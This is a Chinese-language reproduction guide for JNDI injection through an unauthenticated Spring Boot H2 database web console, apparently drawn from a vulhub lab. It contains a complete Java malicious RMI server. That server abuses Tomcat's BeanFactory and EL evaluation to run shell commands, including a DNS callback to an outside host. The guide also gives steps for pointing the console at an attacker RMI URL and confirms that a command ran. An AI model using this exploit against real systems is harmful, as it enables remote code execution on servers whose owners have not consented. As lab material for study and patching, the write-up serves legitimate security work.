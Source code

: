 # Spring Boot H2数据库导致的JNDI注入

## 一、漏洞简介

H2 database是一款Java内存数据库，多用于单元测试。H2 database自带一个Web管理页面，在Spirng开发中，如果我们设置如下选项，即可允许外部用户访问Web管理页面，且没有鉴权：

```
spring.h2.console.enabled=true
spring.h2.console.settings.web-allow-others=true

```

利用这个管理页面，我们可以进行JNDI注入攻击，进而在目标环境下执行任意命令。

## 二、漏洞影响

## 三、复现过程

## 漏洞复现

目标环境是Java 8u252，版本较高，因为上下文是Tomcat环境，我们可以使用`org.apache.naming.factory.BeanFactory`加EL表达式注入的方式来执行任意命令。

```
import java.rmi.registry.*;
import com.sun.jndi.rmi.registry.*;
import javax.naming.*;
import org.apache.naming.ResourceRef;

public class EvilRMIServerNew {
    public static void main(String[] args) throws Exception {
        System.out.println("Creating evil RMI registry on port 1097");
        Registry registry = LocateRegistry.createRegistry(1097);

        //prepare payload that exploits unsafe reflection in org.apache.naming.factory.BeanFactory
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        //redefine a setter name for the 'x' property from 'setX' to 'eval', see BeanFactory.getObjectInstance code
        ref.add(new StringRefAddr("forceString", "x=eval"));
        //expression language to execute 'nslookup jndi.s.artsploit.com', modify /bin/sh to cmd.exe if you target windows
        ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['/bin/sh','-c','nslookup jndi.s.artsploit.com']).start()\")"));

        ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(ref);
        registry.bind("Object", referenceWrapper);
    }
}

```

我们可以借助这个小工具[JNDI](https://github.com/ianxtianxt/JNDI)简化我们的复现过程。

首先设置JNDI工具中执行的命令为`touch /tmp/success`：

![1589611444.jpg](images/fcb5ff8622dc4a689f0794fb7e89e315.jpg)

然后启动`JNDI-1.0-all.jar`，在h2 console页面填入JNDI类名和URL地址：

![1589611473.jpg](images/5b994fe3d20c4f3eae68772ef873ff18.jpg)

其中，`javax.naming.InitialContext`是JNDI的工厂类，URL `rmi://evil:23456/BypassByEL`是运行JNDI工具监听的RMI地址。

点击连接后，恶意RMI成功接收到请求：

![1589611489.jpg](images/64355f7200ec472c98abc928e25f424a.jpg)

`touch /tmp/success`已成功执行：

![1589611541.jpg](images/f511a6e295694f1daf1f647119ee776a.jpg)

## 参考链接

> https://github.com/vulhub/vulhub/blob/master/h2database/h2-console-unacc/README.zh-cn.md

